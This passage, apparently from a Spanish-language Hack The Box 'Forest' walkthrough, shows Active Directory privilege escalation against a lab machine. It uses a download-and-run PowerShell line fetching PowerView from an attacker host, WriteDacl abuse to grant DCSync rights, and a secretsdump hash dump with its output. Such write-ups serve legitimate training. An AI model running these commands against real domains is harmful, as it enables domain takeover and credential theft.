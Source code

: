 Ahora ya podríamos pasar directamente al usuario Adminsitrador a través del permiso WriteDacl

WriteDACL es un permiso de objeto de Active Directory que otorga acceso de escritura a la Lista de control de acceso discrecional (DACL) del objeto de destino, lo que significa que podemos otorgarnos cualquier privilegio que queramos sobre el objeto. 

[https://casimsec.com/2021/05/14/writedacl-and-dcsync/](https://casimsec.com/2021/05/14/writedacl-and-dcsync/)

Seguiremos estos pasos:

1. Descargar y subir a la máquina vícitima PowerView

Para subirlo la máquina usaremos el servidor python `python3 -m http.server 8080`

Y el siguiente comando que ejecutaremos desde la máquina víctima `*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8080/PowerView.ps1')`

2. Otorgar derechos DCSync al usuario creado (elc4br4)

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8080/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = ConvertTo-SecureString 'elc4br4' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $creds = New-Object System.Management.Automation.PSCredential('HTB\elc4br4', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $creds  -TargetIdentity "DC=HTB,DC=local" -PrincipalIdentity elc4br4 -Rights DCSync
```

3. A través de secretsdump.py volcamos los hashes 

```bash
❯ sudo ./secretsdump.py htb.local/elc4br4:elc4br4@10.10.10.161
[sudo] password for elc4br4: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

4. crackmapexec smb -u userfile -H hash

Comprobamos que el hash de Administrador es válido

![](/assets/images/HTB/Forest-HackTheBox/crackmapexec.webp)

5. Iniciar sesión con psexec.py usando el Hash

